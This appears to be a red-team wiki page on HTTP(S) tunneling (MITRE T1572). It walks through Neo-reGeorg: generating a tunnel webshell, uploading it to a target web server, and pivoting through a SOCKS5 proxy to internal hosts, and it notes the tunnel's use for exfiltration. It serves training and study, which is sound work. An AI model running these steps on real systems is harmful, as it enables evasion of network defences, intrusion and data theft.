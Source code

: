 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# HTTP(s) Tunneling

## Theory

HTTP tunneling is a technique that involves encapsulating non-HTTP traffic within HTTP to traverse network restrictions or security measures. It allows data to be transmitted in a way that appears as regular HTTP traffic, making it more likely to pass through firewalls and other filtering mechanisms that may be in place. Its a valuable pivoting technique to concidere.

{% hint style="danger" %}
HTTP(S) Tunneling may also be used as an [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:

```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host then on a webserver. On the attacking machine we can do:

```bash
#Establish sock5 proxy
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php

#We can now use it as sock5 proxy 
v4resk@kali$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
